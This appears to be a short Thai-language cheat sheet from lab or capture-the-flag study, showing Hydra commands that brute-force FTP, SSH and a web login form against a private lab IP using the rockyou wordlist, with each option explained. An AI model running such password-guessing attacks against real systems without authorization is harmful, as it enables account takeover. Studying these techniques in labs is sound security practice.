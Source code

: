 #web
# What
- Bruteforce ได้ทุกอย่าง
# Command
FTP
```bash
hydra -l user -P passlist.txt ftp://10.10.15.171
```
SSH
```bash
hydra -l molly -P rockyou.txt 10.10.15.171 -t 4 ssh
```
Website
```bash
hydra -l molly -P rockyou.txt 10.10.15.171 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect” -V
```
Syntax
- /login = ตำแหน่งที่จะ bruteforce
- username=^USER^&password=^PASS^ = หาจาก bur psuit
- F=incorrect = ข้อความตอบกลับเวลารหัสผิด
- -l = username 
- -P = password 
- -t = กำหนดจำนวนเธรดที่จะสร้าง 
- -V = แสดงรหัสที่ลองทั้งหมด
